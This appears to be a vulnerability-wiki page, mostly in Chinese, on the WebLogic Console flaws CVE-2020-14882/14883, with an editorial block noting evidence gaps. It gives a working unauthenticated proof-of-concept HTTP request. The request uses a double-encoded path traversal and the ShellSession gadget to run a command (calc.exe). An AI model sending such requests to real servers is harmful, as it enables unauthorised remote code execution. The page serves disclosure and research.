




# CVE-2020-14882 weblogic 未授权命令执行

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Exposed unpatched Console and ShellSession-compatible library; Windows calc example
- 证据范围：Same text and request as478/498; retains chain introduction, local image references and cleaner multiline request, making stronger consolidation candidate.

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Single-CVE metadata omits14883
- No affected-build/gadget conditions or remediation
- Unnecessary Cookie ADM and image-only patch/bypass evidence

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## **简介**

未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。它们均存在于WebLogic的Console控制台组件中。此组件为WebLogic全版本默认自带组件，且该漏洞通过HTTP协议进行利用。将CVE-2020-14882和CVE-2020-14883进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限。



根据补丁diff结果我们可以看出，可以看出上面的变化

我们可以通过下面的代码，任意加载某个类或者对象

```
http://<target>/console/console.portal?_nfpb=true&_pageLabel=HomePage1&handle=java.lang.String("ahihi")
```



## **未授权访问**



非法字符绕过登陆保护

## **POC**

首先通过非法字符绕过访问，然后通过Gadget调用命令执行，poc如下



```http
GET /console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22); HTTP/1.1
Host: 192.168.3.189:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADM
Upgrade-Insecure-Requests: 1
```


https://mp.weixin.qq.com/s/48VIwTkyFVXUTS78kNByhg
